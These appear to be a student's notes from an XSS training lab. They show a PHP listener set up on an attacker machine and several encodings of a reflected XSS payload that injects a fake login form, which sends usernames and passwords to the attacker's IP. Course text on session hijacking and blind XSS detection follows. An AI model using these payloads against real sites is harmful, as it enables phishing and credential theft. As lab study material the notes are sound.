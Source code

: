

```shell
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
 sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```


```
http://10.129.109.137/phishing/index.php?url=%27onerror=document.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=%27http://10.10.16.46%27%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3Edocument.getElementById(%22urlform%22).remove()%3C/script%3E


```

' onerror=document.write("<h3>Please login to continue</h3><form action='http://10.10.16.46'><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>");document.getElementById("urlform").remove()

url=document.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.16.46%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove(

the exercise here is fucked as you dont actually remove the form field but i just copied the url from the course and it works


# Session Hijacking

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a `Session Hijacking` (aka `Cookie Stealing`) attack.

## Blind XSS Detection

 A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.
Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?
